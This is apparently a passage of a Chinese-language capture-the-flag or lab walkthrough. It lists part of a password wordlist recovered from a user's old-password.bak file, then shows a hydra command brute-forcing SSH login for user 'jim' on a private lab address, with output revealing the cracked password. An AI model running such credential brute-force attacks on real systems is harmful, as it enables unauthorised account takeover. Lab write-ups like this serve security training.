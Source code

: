 ```
shorty
poohbear1
simone
albert
marlboro
hardcore
cowboys
sydney
alex
scorpio
1234512345
q12345
qq123456
onelove
bond007
abcdefg1
eagles
crystal1
azertyuiop
winter
sexy12
angelina
james
svetlana
fatima
123456k
icecream
popcorn1

```

很好..动手

## 横向提权一波 (su the user) 

把他的文件old-password.bak弄下来 

这里直接ctrl+c/v给他存到password.txt文件夹下

然后hydra启动!..

> hydra是一个在线多线程密码爆破攻击工具 具有高并发速度快的优点

``` bash 
─$ hydra -l jim \ #这里是说他的用户名为jim  如果用户名是文件中的话 使用-L <file>进行爆破
-P ./passwords.txt \ #这里是表示 我们的密码字典 
ssh://192.168.31.241  #协议 ip和端口
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these * * * ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-24 23:32:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 253 login tries (l:1/p:253), ~16 tries per task
[DATA] attacking ssh://192.168.31.241:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 77 to do in 00:01h, 16 active
[22][ssh] host: 192.168.31.241   login: jim   password: jibril04 #看 结果出来了
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-24 23:33:43
```
